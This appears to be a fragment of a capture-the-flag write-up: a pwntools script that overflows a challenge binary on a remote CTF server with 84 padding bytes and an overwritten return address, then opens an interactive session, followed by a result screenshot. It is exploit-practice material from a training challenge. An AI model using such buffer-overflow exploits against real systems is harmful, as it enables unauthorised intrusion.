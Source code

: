```
from pwn import *
#p = process('./chall')
p = remote('stembactf.space', 5202)
payload = b'A' * 84
payload += p32(0x08049203)

p.sendline(payload)

p.interactive()

```

# Result

<img width="776" alt="image" src="https://github.com/Langhere/WriteUpCTFlocal/assets/142018203/d6ef7ba7-ac16-47dd-83f5-91b3c21110d9">

has pwned

